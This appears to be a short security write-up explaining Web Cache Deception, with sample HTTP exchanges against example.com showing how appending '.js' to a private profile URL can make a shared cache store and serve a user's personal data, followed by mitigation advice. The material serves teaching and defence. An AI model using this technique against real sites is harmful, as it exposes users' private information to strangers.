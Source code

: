 # Web Cache Deception
The vulnerability found concerns a misconfiguration of the web cache that allows an attacker to access private or sensitive content intended only for authenticated users.
By manipulating the URL, the attacker can trick the cache system and force the caching of a response containing confidential information.

# How to exploit
Here is a concrete example of how a discrepancy in path mapping within a web app can be exploited to perform a Web Cache Deception attack. Suppose we have a web app with an area reserved for user profiles

The authenticated user can access their profile page via the following URL:
**GET /user/123/profile HTTP/1.1
Host: www.example.com**

Server response:

HTTP/1.1 200 OK
Content-Type: text/html
Cache-Control: no-store
Cf-Cache-Status: BYPASS

<html>
<body>
<h1>Profilo di Jacopo</h1>
<p>Email: jacopo@example.com</p>
<p>Indirizzo: xxxxx</p>
</body>
</html>

In this case, the server correctly returns the profile information of authenticated user 123 (jacopo) and does not cache the response thanks to the Cache-Control: no-store header

**Attempted Web Cache Deception:**

The attacker could manipulate the URL by adding a commonly cacheable extension such as .js, thereby tricking the cache system into storing the response

**GET /user/123/profile.js HTTP/1.1
Host: www.example.com**

Server response:

HTTP/1.1 200 OK
Content-Type: text/html
Cache-Control: public, max-age=3600
Cf-Cache-Status: **HIT**

 the origin server might treat the URL **/user/123/profile.js** as if it were a normal request for user profile 123, ignoring the .js extension. However, the caching system might interpret the URL as a static resource (a .js file) and decide to cache the response


At this point, any user (authenticated or not) accessing the same manipulated URL in incognito mode or from another device will get the response cached with the sensitive profile data of user 123

**GET /user/123/profile.js HTTP/1.1
Host: www.example.com**

# Recommendations:
Disable caching for sensitive content: Correctly set cache headers, such as Cache-Control: no-store, for all sensitive resources and pages requiring authentication.

Path validation: Implement control logic on URLs to reject requests with unexpected extensions or unusual syntax.

Authentication control: Ensure that every request to sensitive resources always performs an authentication check, even if the resource has been previously cached.






